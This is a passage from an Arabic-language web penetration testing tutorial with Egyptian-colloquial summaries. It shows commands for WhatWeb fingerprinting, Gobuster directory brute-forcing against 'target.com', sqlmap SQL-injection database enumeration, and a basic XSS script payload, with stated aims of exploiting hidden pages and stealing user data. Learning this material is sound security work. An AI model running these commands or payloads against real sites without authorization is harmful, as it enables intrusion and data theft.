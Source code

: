 ### ✅ **استخدام WhatWeb لمعرفة التكنولوجيا المستخدمة**

```bash
whatweb target.com
```

🟢 **الخلاصة بالعامية المصرية:**  
هنجمع معلومات عن السيرفر زي النطاقات الفرعية، الخدمات، والتكنولوجيا اللي بيستخدمها.

---

## **🛠️ 2. البحث عن المجلدات والملفات المخفية**

🔹 أحيانًا بيكون فيه **ملفات مهمة مخفية** زي **admin panels أو config files**.

### ✅ **استخدام Gobuster للبحث عن المجلدات**

```bash
gobuster dir -u target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

🟢 **الخلاصة بالعامية المصرية:**  
هنشوف لو فيه صفحات أو مجلدات مخفية ممكن نستغلها.

---

## **🛠️ 3. اختبار ثغرات SQL Injection**

🔹 بنجرب **إدخال أوامر SQL** عشان نتحكم في قاعدة البيانات.

### ✅ **استخدام sqlmap لفحص وإكسبلويت الثغرات**

```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs --batch
```

🟢 **الخلاصة بالعامية المصرية:**  
هنجرب نشوف لو الموقع فيه ثغرة SQL Injection تخليه يعرض بيانات حساسة.

---

## **🛠️ 4. تجربة XSS (Cross-Site Scripting)**

🔹 نشوف هل الموقع بيتعامل مع الإدخال بطريقة غير آمنة؟

### ✅ **اختبار إدخال JavaScript ضار**

```html
<script>alert("Hacked!")</script>
```

🟢 **الخلاصة بالعامية المصرية:**  
هنشوف لو نقدر نشغل كود JavaScript في الموقع عشان نسرق بيانات المستخدمين.

---
